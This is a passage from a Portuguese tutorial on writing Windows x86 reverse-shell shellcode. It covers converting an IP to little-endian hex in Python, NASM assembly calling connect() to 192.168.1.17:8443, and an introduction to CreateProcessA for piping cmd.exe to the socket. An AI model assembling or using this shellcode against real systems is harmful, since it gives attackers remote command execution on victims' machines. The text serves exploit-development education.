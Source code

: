 Podemos criar um script em python para descobrir byte a byte do nosso endereço.

ipToHex.py:
```python
#!/usr/bin/python3

ip = "192.168.1.17"
ip = ip.split(".")

print(' '.join((hex(int(i))[2:] for i in ip)))
```

E ele nos responde o IP byte a byte:
```bash
$ python3 ipToHex.py
c0 a8 1 11
```

Como precisamos preencher o script emm little indian, a ntação fica: 0x1101a8c0.

Agora vamos fazer o Assembly da função connect().

```nasm
; connect

push 0x1101a8c0         ; Fazendo push do endereco de IP 192.168.1.17 em hexa
push word 0xfb20        ; Fazendo push da porta hex(8443)
xor ebx, ebx            ; Zerando EBX
add bl, 2               ; Inserindo o valor 2 em 'sa_family' (AF_INET=2)
push word bx            ; Fazendo push para o parametro 'sa_family'
mov ebx, esp            ; Apontando EBX para a estrutura sockaddr
push byte 16            ; Tamanho do sockaddr: sa_family + sa_data = 16
push ebx                ; Fazendo push para o apontador do parametro 'name'
push esi                ; Fazendo push no socket para o parametro 's'
mov ebx, 0x76e65710     ; Endereco da connect() no Win10 21H1
call ebx                ; Chamando a connect()

```

Por ultimo, precisamos fazer a chamada para a API CreateProcessA() cuja documentação pode ser encontrada [aqui](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa).

Esta função é responsável por chamar o cmd.exe e enviar o STDIN, STDOUT e STDERR para o socket criado, é a função mais longa, pois seus parâmetros também chamam outras funções, porém a grande maioria pode ser nulo.

Abaixo a estrutura da CreateProcessA():

```c
BOOL CreateProcessA(
  LPCSTR                lpApplicationName,
  LPSTR                 lpCommandLine,
  LPSECURITY_ATTRIBUTES lpProcessAttributes,
  LPSECURITY_ATTRIBUTES lpThreadAttributes,
  BOOL                  bInheritHandles,
  DWORD                 dwCreationFlags,
  LPVOID                lpEnvironment,
  LPCSTR                lpCurrentDirectory,
  LPSTARTUPINFOA        lpStartupInfo,
  LPPROCESS_INFORMATION lpProcessInformation
);
```
